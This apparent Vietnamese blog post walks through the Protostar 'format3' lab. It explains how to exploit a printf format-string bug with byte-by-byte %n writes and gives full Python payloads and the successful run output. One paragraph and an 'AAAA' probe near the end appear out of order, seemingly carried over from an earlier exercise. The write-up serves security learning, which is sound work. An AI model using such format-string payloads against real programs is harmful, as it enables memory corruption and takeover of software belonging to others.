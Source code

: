 ```yaml
---
layout: post
title: format3
---
```


Trong bài này, chúng ta sẽ tiếp tục dùng `printf` với `%n` một cách linh hoạt hơn.
Thay vì chỉ ghi một giá 4 byte, chúng ta có thể dùng `printf` để ghi từng thành phần byte.

Sau đây là source code và asm code của chương trình format3.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
```asm
0x08048454 <printbuffer+0>:     push   ebp
0x08048455 <printbuffer+1>:     mov    ebp,esp
0x08048457 <printbuffer+3>:     sub    esp,0x18
0x0804845a <printbuffer+6>:     mov    eax,DWORD PTR [ebp+0x8]
0x0804845d <printbuffer+9>:     mov    DWORD PTR [esp],eax
0x08048460 <printbuffer+12>:    call   0x804837c <printf@plt>
0x08048465 <printbuffer+17>:    leave
0x08048466 <printbuffer+18>:    ret
0x08048467 <vuln+0>:    push   ebp
0x08048468 <vuln+1>:    mov    ebp,esp
0x0804846a <vuln+3>:    sub    esp,0x218
0x08048470 <vuln+9>:    mov    eax,ds:0x80496e8
0x08048475 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x08048479 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x08048481 <vuln+26>:   lea    eax,[ebp-0x208]
0x08048487 <vuln+32>:   mov    DWORD PTR [esp],eax
0x0804848a <vuln+35>:   call   0x804835c <fgets@plt>
0x0804848f <vuln+40>:   lea    eax,[ebp-0x208]
0x08048495 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048498 <vuln+49>:   call   0x8048454 <printbuffer>
0x0804849d <vuln+54>:   mov    eax,ds:0x80496f4
0x080484a2 <vuln+59>:   cmp    eax,0x1025544
0x080484a7 <vuln+64>:   jne    0x80484b7 <vuln+80>
0x080484a9 <vuln+66>:   mov    DWORD PTR [esp],0x80485a0
0x080484b0 <vuln+73>:   call   0x804838c <puts@plt>
0x080484b5 <vuln+78>:   jmp    0x80484ce <vuln+103>
0x080484b7 <vuln+80>:   mov    edx,DWORD PTR ds:0x80496f4
0x080484bd <vuln+86>:   mov    eax,0x80485c0
0x080484c2 <vuln+91>:   mov    DWORD PTR [esp+0x4],edx
0x080484c6 <vuln+95>:   mov    DWORD PTR [esp],eax
0x080484c9 <vuln+98>:   call   0x804837c <printf@plt>
0x080484ce <vuln+103>:  leave
0x080484cf <vuln+104>:  ret
0x080484d0 <main+0>:    push   ebp
0x080484d1 <main+1>:    mov    ebp,esp
0x080484d3 <main+3>:    and    esp,0xfffffff0
0x080484d6 <main+6>:    call   0x8048467 <vuln>
0x080484db <main+11>:   mov    esp,ebp
0x080484dd <main+13>:   pop    ebp
0x080484de <main+14>:   ret
```

Để tìm được địa chỉ của `target`, dùng objdump như 2 bài trước. Kết quả cho thấy `target` được lưu tại `0x080496f4`.
Tiếp theo ta tìm khoảng cách từ `esp` đến địa chỉ của formatted string cũng như bài trước. Kết quả cho thấy khoảng cách này là 44 byte, tương đương với tham số thứ 12 khi gọi hàm `printf`.
Giá trị cần ghi vào `target` là `0x01025544`.
Ta có thể làm tương tự như bài trước bằng cách xây dựng 4 byte địa chỉ, đi kèm với in ra 16,930,112 ký tự với `%x` như sau.

```bash
python -c 'print "\xf4\x96\x04\x08" + "%16930112x" + "%12$n"'
```

Ta cũng có thể ghi từng byte thành phần như sau.
Đầu tiên, cần tách giá trị `0x01025544` thành:
* `0x01` lưu vào `0x080496f7`
* `0x02` lưu vào `0x080496f6`
* `0x55` lưu vào `0x080496f5`
* `0x44` lưu vào `0x080496f4`

Tuy nhiên, thứ tự lưu cần được lưu ý, vì mỗi lần lưu vào địa chỉ `0xY` thì 4 byte từ `0xY` đến `0xY + 3` sẽ bị thay đổi theo.
Ví dụ nếu ta lưu `0x01` vào `0x080496f7`, ta sẽ được giá trị của `target` như sau.
<pre class="memory">
0x080496f4:     0x<span style="color:orangered">01</span>000000
</pre>
Sau đó, ta lưu `0x02` vào `0x080496f6` thì giá trị tại `0x080496f7` sẽ mất đi (trở về `0x00` do ghi `0x02` tương đương với `0x0002`).
<pre class="memory">
0x080496f4:     0x00<span style="color:orangered">02</span>0000
</pre>

Lưu ý thứ 2 đó là chúng ta không thể giảm giá trị sẽ được lưu khi lệnh `printf` tiếp diễn.
Cụ thể, vì bản chất của `printf` kết hợp với `%n` là ghi số lượng ký tự đã được in ra màn hình, giá trị được lưu với `%n` chỉ tăng dần theo thời gian cho đến khi `printf` kết thúc.
Do vậy, đối với bài này, chúng ta có thể ghi theo trình tự như sau.
* `0x44` lưu vào `0x080496f4`
* `0x55` lưu vào `0x080496f5`
* `0x0102` lưu vào `0x080496f6`

Với cách ghi này, ta cần xây dựng formatted string có cả 3 địa chỉ trên.
Rất may, với 3 địa chỉ này ở đầu formatted string, chúng ta chỉ tiêu tốn 12 ký tự in ra, nhỏ hơn giá trị 68 (hay `0x44`) cho lần ghi đầu tiên.
Ta cần in ra thêm 56 ký tự khác với `%x`.
Formatted string mở đầu như sau.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n"'
```

Sau lần ghi đầu, chúng ta đã in ra 68 ký tự.
Ở lần ghi thứ 2, cần thêm 17 ký tự nữa để đạt đủ 85 (hay `0x55`) cho lần ghi thứ hai.
Và ở lần ghi thứ hai, chúng ta sẽ ghi vào địa chỉ ở tham số thứ 13.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n"'
```

Tương tự, với lần ghi cuối, ta cần thêm 173 ký tự để đạt đủ 258 (hay `0x0102`).
Lần ghi cuối này sẽ ghi vào địa chỉ ở tham số thứ 14.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"'
```

Chạy thử chương trình, ta được như sau.
```bash
format3 <<< $(python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"')
```

Chúng ta sẽ dựng formatted string dựa trên địa chỉ này.
Thành phần sẽ gồm 4 byte địa chỉ ở đầu. Tiếp theo, ta cần ghi thêm lệnh in 60 byte nữa trước khi sử dụng `%n` để ghi vào `target`.
Chúng ta cũng cần biết khoảng cách từ `esp` đến địa chỉ của formatted string.
Cách làm tương tự như bài trước, đó là dùng formatted string có cờ dạng `AAAA` ở đầu và các chuỗi `%x.` để xác định vị trí cờ sau khi in ra.

```bash
python -c "print 'AAAA' + '%x.' * 100"
```
<pre class="memory">
                                                       0         bffff5b0                                                                                                                                                                     b7fd7ff4
<span style="color:aqua">you have modified the target :)</span>
</pre>

Mục tiêu hoàn thành!

## Ref
```bash
user@protostar:~$ format3 <<< $(python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"')
                                                       0         bffff5b0                                                                                                                                                                     b7fd7ff4
you have modified the target :)
```

